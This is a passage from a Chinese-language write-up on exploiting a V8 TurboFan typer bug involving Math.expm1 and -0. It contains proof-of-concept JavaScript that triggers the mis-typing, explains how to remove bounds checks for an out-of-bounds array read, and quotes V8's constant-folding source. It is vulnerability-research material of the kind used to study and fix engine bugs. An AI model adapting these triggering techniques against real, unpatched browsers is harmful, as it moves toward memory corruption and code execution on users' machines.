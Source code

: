 ```javascript
function foo(x)
{
    var a = Object.is(Math.expm1(x), -0);
    console.log(a);
}

foo('a');

%OptimizeFunctionOnNextCall(foo);
foo('a');

%OptimizeFunctionOnNextCall(foo);

foo(-0);//false
```

最终的输出结果为false说明漏洞已经被触发了。这样就解决掉了第一个问题。

#### skip constant folding phase

那么接下来是不是可以直接使用下面这段代码获得越界读了呢：

```javascript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let b = Object.is(Math.expm1(x), -0);//本应为true但是在typer中模拟的结果是false
    return a[b * 1337];
}
foo('a');

%OptimizeFunctionOnNextCall(foo);
foo('a');

%OptimizeFunctionOnNextCall(foo);

foo(-0);
```

答案是不能，问题出在turbofan优化过程中的constant folding。刚才提到过Turbofan在优化的过程中将会进行constant folding，这将导致`Object.is()`直接被优化为ConstantFalse（b = false），虽然这样的优化将导致错误的结果，但是这个错误的结果对利用这个漏洞是没有帮助的。我们来对比一下当前的情况和我们理想的情况：

- 当前情况：因为constant folding的原因`Object.is()`被折叠为constantfalse导致b的值为false，b * 1337 = 0，这样虽然CheckBounds被消除，但是用0索引来访问数组还是没办法触发越界读。
- 理想情况：`Object.is()`不被折叠，**错误的type沿着SoN传递（传播过程中b * 1337这个乘法Node的Type被错误的计算为Range(0, 0)）最终导致CheckBounds被消除**，但是`Object.is()`仍然正确计算，最终b的值为true，b * 1337 = 1337，最终用这个很大的索引访问数组，导致越界读。

我们想要的是错误的type的传播，导致CheckBound被消除，但是仍然保留正确的计算结果，才能导致越界读。所以这就引出了我们要解决的第二个问题如何跳过Turbofan优化过程中的几次constant folding。

为了防止`Object.is()`被折叠为false，首先要知道怎么样绕过constant folding（CF）这个优化，为此需要去阅读有关这个优化的源码：


```c++
Reduction ConstantFoldingReducer::Reduce(Node* node) {
  DisallowHeapAccess no_heap_access;
  // Check if the output type is a singleton.  In that case we already know the
  // result value and can simply replace the node if it's eliminable.
  if (!NodeProperties::IsConstant(node) && NodeProperties::IsTyped(node) &&
      node->op()->HasProperty(Operator::kEliminatable)) {
    // TODO(v8:5303): We must not eliminate FinishRegion here. This special
    // case can be removed once we have separate operators for value and
    // effect regions.
    if (node->opcode() == IrOpcode::kFinishRegion) return NoChange();
    // We can only constant-fold nodes here, that are known to not cause any
    // side-effect, may it be a JavaScript observable side-effect or a possible
    // eager deoptimization exit (i.e. {node} has an operator that doesn't have
    // the Operator::kNoDeopt property).
    Type upper = NodeProperties::GetType(node);
```